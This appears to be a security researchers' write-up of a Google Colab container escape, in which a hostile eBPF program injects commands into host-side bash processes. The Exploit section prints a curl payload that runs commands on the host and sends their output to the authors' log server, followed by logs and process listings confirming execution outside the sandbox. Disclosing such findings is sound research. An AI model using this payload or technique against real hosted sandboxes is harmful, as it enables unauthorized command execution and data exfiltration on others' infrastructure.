


**Colab Container/Sandbox Escape**

Authors:

**Roland@Tencent,**

**Yi He@Tsinghua University,**

# Colab environment analysis

After inspect the process informtaion in Colab, we can make sure Colab is booted by ```docker-init``` which is a typical container/sandbox.



On the other hand, we execute our host process information leak ebpf program, and found some processes are executed out of the sandbox/container:

```sh
kernel_manager_
containerd-shim
tunnelbackend_b
jupyter-noteboo
systemd-journal
colab-disk-grow
move-jupyter-ch
containerd
dockerd
node-problem-de
kernel_manag
nvidia-smi
dap_multiplexer
google_osconfig
containerd-shim
tunnelbackend_b
jupyter-noteboo
kernel_manager_
dockerd
systemd-journal
node-problem-de
dap_multiplexer
colab-disk-grow
google_osconfig
google_guest_ag
nvidia-smi
device_policy_m
journal-offline
systemd
sshd
bash
sha256sum
readlink
xargs
head
fgrep
systemd-network
systemd-logind
systemd-resolve
(h_sender)
crash_sender
dbus-daemon
check_boot_disk
df
systemd-udevd
chronyd
```

# Information Collection

After He developed a host process information collection and filter evil ebpf program, we are able to dive into the host process behaviors, the following things were brought to our attention：



The figure told us that in the host VM out of the Colab sandbox/container, it seems to have some bash and sshd behaviors which we think could be vulnerable and exploitable for us.

Then I quickly improved our evil ebpf programs, and adapted to these behaviors.

# Exploit

We upload our program and run in Colab, and change our payload to: 

```shell
curl -d uid="$(ps -ef | sed -n '2p')" {our_log_server_ip} #
```

the payload will get the process #1 and print log to our log server, after a few minutes, we received the log:

```sh
2022-07-14 09:31:09,388 record-server INFO Get User: [root 1 0 0 Jul13 ? 00:00:02 /usr/lib/systemd/systemd noresume noswap cros_efi] 

2022-07-14 10:11:46,394 record-server INFO Get User: [root 825 1 0 Jul13 ? 00:00:08 /usr/bin/dockerd --registry-mirror=https://mirror.gcr.io --host=fd:// --containerd=/var/run/containerd/containerd.sock] 
```

And we found that, the process#1 is ```/usr/lib/systemd/systemd``` which **is not runned** in the sandbox, also **dockerd**

```shell
!ls /usr/lib/systemd/systemd
ls: cannot access '/usr/lib/systemd/systemd': No such file or directory
```

```shell
!find / -name "dockerd"
find: ‘/proc/36/task/36/net’: Invalid argument
find: ‘/proc/36/net’: Invalid argument
```

```shell
!ps -ef
UID          PID    PPID  C STIME TTY          TIME CMD
root           1       0  0 Jul13 ?        00:00:01 /sbin/docker-init -- /datala
root           7       1  0 Jul13 ?        00:00:11 /tools/node/bin/node /datala
root          21       0  0 Jul13 ?        00:00:01 tail -n +0 -F /root/.config/
root          36       7  0 Jul13 ?        00:00:06 [python3] <defunct>
root          37       7  0 Jul13 ?        00:00:00 python3 /usr/local/bin/colab
root          50       7  0 Jul13 ?        00:00:12 /usr/bin/python3 /usr/local/
root          51       7  0 Jul13 ?        00:00:18 /usr/local/bin/dap_multiplex
root          67      50  0 Jul13 ?        00:01:35 /usr/bin/python3 -m ipykerne
root          87       1  0 Jul13 ?        00:00:30 /usr/bin/python3 /usr/local/
root         743       7  1 02:56 ?        00:01:02 node /datalab/web/pyright/py
root         822      67  0 04:26 ?        00:00:00 ps -ef
```

**Till now, we can make sure that we escaped from Colab sandbox/container, and gain the ability to Execute arbitrary commands out of the sandbox/container.** 

